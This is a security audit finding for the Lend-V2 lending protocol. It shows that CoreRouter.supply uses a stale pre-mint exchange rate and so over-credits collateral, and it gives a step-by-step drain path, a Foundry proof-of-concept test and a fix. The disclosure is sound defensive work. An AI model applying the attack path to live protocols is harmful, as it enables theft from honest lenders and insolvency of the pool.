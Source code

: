 Raspy Glass Koala

High

# Malicious supplier will over-credit collateral and underfund reserves, harming the protocol and honest lenders.

### Summary

Using the pre-mint exchangeRateStored() will cause an over-credit of minted lTokens for the protocol and its users as a malicious supplier will advance blocks so interest accrues, then supply large amounts, repeat, and borrow against the phantom collateral to drain liquidity.

### Root Cause

Root Cause

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L74-L89

```solidity
uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateStored();
require(LErc20Interface(_lToken).mint(_amount) == 0, "Mint failed");
uint256 mintTokens = (_amount * 1e18) / exchangeRateBefore;   // ← stale rate
```
exchangeRateStored() is fetched before mint().
Because mint() calls accrueInterest(), the exchange-rate may increase in the same transaction; the subsequent mintTokens computation therefore over-estimates the tokens actually minted and over-credits the user’s collateral balance.

### Internal Pre-conditions

1. Any borrower must have already opened a debt position so that
totalBorrows in the lToken market is greater than 0.

2. At least one new block (or more) must elapse after the last accrueInterest() call, allowing the cached
exchangeRateStored to increase.

3. Attacker (supplier) must approve the CoreRouter to spend their underlying and then call
CoreRouter.supply(amount, token) while the router still holds the stale exchange-rate value read in step 2.

With these conditions met, the router will compute mintTokens from the outdated exchange-rate and over-credit the attacker’s collateral balance.

### External Pre-conditions

1. [Blockchain] must advance by ≥ 1 block (or equivalent wall-clock time) after the last accrueInterest() so that a new call to accrueInterest() will modify on-chain accounting.

2. [Interest-rate model] must return a positive borrow-rate, causing accrueInterest() to add interest to totalBorrows and raise the exchange-rate.

3. [lToken implementation] must execute accrueInterest() inside its mint() function (Compound-style behaviour).

With those external conditions in place, every call to mint() from the CoreRouter will bump the exchange-rate and create the stale-rate mismatch exploited in the attack.

### Attack Path

1. Attacker supplies some collateral and then opens a small borrow in the same market (or any borrower already exists).
Result: totalBorrows > 0, so future accrueInterest() can raise the exchange-rate.

2. The attacker (or simply the passage of time) lets one or more blocks elapse.
Result: exchangeRateStored is now stale; the next accrueInterest() call will increase it.

3. Attacker calls CoreRouter.supply(A) with a large underlying amount A.
Router flow:
     3.1 reads exchangeRateStored() → R₀;
     3.2 calls mint(A).

4. Inside mint(A) the lToken executes accrueInterest(), raising the rate to R₁ = R₀ + Δ and mints
actualMint = A / R₁ lTokens to the router.

5. Returning to the router, it computes
mintTokens = A / R₀ (using the stale R₀), which is larger than actualMint, and stores that inflated value in lendStorage.totalInvestment[attacker].

6. Attacker immediately calls borrow() (or later redeem()) to extract value:
Borrow limit is based on the inflated collateral balance.
They can drain extra underlying or later redeem more than they are entitled to.

7. The attacker may loop: wait more blocks, supply again, and accumulate ever-growing phantom collateral until protocol solvency is jeopardized or honest suppliers are under-paid.

### Impact

The protocol’s liquidity pool and honest suppliers suffer an unbounded loss equal to the phantom lTokens credited to the attacker (≈ Δ / R × every supplied amount).
For example, with a 0.2 % rate drift an attacker who repeatedly supplies 10 000 e18 underlying is over-credited by ≈ 20 lTokens per cycle, allowing them to borrow or redeem an extra ≈ 200 underlying each time. Over many cycles this drains real cash from the pool while the attacker gains the same amount.

### PoC

Add this test in the TestSupplying.t.sol:

```solidity
   function test_mintTokenAccountingMismatch() public {
    // --------------------------------------------------------------------- //
    // 1. PREP: choose token / lToken and create another account "borrower"  //
    // --------------------------------------------------------------------- //
    address token  = supportedTokens[0];
    address lToken = lendStorage.underlyingTolToken(token);

    address borrower = makeAddr("borrower");

    uint256 collateral = 50 ether;   // borrower supplies 50 tokens
    uint256 debt      = 10 ether;    // borrower will borrow 10 tokens

    // ----------------------------------------------------------- //
    // 2. Borrower supplies collateral so that the market has debt //
    // ----------------------------------------------------------- //
    ERC20Mock(token).mint(borrower, collateral);
    vm.startPrank(borrower);
    IERC20(token).approve(address(coreRouter), collateral);
    coreRouter.supply(collateral, token);   // borrower supplies

    // ------------------------- //
    // 3. Borrower opens a debt  //
    // ------------------------- //
    coreRouter.borrow(debt, token);         // same asset borrow is allowed in this fork
    vm.stopPrank();

    // ----------------------------------------------- //
    // 4. FAST-FORWARD time so interest can accumulate //
    // ----------------------------------------------- //
    vm.roll(block.number + 100);             // move 100 blocks
    vm.warp(block.timestamp + 1 hours);      // +1 hour

    // ----------------------------------------------------------------- //
    // 5. Deployer will now supply; capture exchange-rate BEFORE minting //
    // ----------------------------------------------------------------- //
    uint256 supplyAmount = 100 ether;
    ERC20Mock(token).mint(deployer, supplyAmount);

    vm.startPrank(deployer);
    IERC20(token).approve(address(coreRouter), supplyAmount);

    uint256 exchangeRateBefore = LTokenInterface(lToken).exchangeRateStored();
    uint256 expectedMintTokens = (supplyAmount * 1e18) / exchangeRateBefore;

    uint256 lTokenBalBefore = LTokenInterface(lToken).balanceOf(address(coreRouter));

    // --------------------------- //
    // 6. Call supply() – the bug  //
    // --------------------------- //
    coreRouter.supply(supplyAmount, token);

    uint256 lTokenBalAfter  = LTokenInterface(lToken).balanceOf(address(coreRouter));
    uint256 actualMinted    = lTokenBalAfter - lTokenBalBefore;

    uint256 recordedInvestment = lendStorage.totalInvestment(deployer, lToken);

    // ------------------------------------------------------------- //
    // 7. Logs & assertion – recordedInvestment should be **bigger** //
    // ------------------------------------------------------------- //
    console2.log("exchangeRateBefore:", exchangeRateBefore);
    console2.log("expectedMintTokens:", expectedMintTokens);
    console2.log("actualMinted      :", actualMinted);
    console2.log("recordedInvestment:", recordedInvestment);

    assertGt(
        recordedInvestment,
        actualMinted,
        "CoreRouter incorrectly credits more lTokens than were minted"
    );

    vm.stopPrank();
}
```

### Mitigation

Calculate minted lTokens from the balance-delta, not from a cached exchange-rate

```solidity
function supply(uint256 amount, address token) external {
    address lToken = lendStorage.underlyingTolToken(token);
    …
    uint256 balBefore = LTokenInterface(lToken).balanceOf(address(this));
    require(LErc20Interface(lToken).mint(amount) == 0, "mint failed");
    uint256 balAfter  = LTokenInterface(lToken).balanceOf(address(this));

    uint256 mintTokens = balAfter - balBefore;        // ← exact
    lendStorage.updateTotalInvestment(msg.sender, lToken,
        lendStorage.totalInvestment(msg.sender, lToken) + mintTokens);
    …
}
```
